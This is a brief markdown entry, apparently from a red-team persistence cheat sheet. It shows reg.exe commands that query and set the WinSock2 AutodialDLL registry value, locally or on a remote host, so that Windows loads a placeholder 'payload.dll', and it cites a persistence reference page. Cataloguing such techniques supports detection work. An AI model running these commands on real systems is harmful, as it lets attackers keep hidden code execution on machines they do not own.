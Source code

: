# Autodial DLL

```
C:\> reg.exe query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters\AutodialDLL
```

```
C:\> reg.exe add [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters\AutodialDLL /t REG_SZ /v AutodialDLL /d "C:\path\to\payload.dll" /f
```

---
## References

- [Persistence Info: Autodial DLL](https://persistence-info.github.io/Data/autodialdll.html)